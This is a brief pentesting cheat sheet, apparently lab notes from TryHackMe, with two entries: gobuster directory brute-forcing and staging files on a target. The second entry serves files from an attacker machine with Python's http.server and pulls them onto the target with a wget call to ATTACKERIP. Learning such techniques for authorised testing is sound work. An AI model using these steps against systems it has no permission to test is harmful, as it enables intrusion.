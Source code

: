 <h1 align="center">RED BOOK</h1>
<h2 align="center"> Short examples for pentesting/hacking</h2>
<h3 align="center"> Tryhackme and other sources</h3>

<table>
  <tr>
    <td align="left">
      <strong>GOBUSTER CRAWLER BRUTE FORCE SEARCH WEBPAGES</strong><br>
      Using wordlist, search for directories on webserver to detect what pages webserver have.<br>
      gobuster -u http://WEBPAGE -w WORDLIST.txt dir<br>
      -u is used to state the website we're scanning<br>
      -w takes a list of words to iterate through to find hidden pages<br>
      -dir search for directories
    </td>
  </tr>
  <tr>
    <td align="left">
      <strong>TRANSFER FILES USING HTTP</strong><br>
Start http server with Python (Win) and download files on target with wget request.<br>
On attacker (win): <br>
python3 -m http.server 1234 c:/testdir <br>            
-1234 is port where http server will listen, and in last part is directory for http server (not required)<br>
On target in CMD (win/linux/any):<br>
wget http://ATTACKERIP:1234/SOMEFILEINROOTDIR
    </td>
  </tr>
</table>

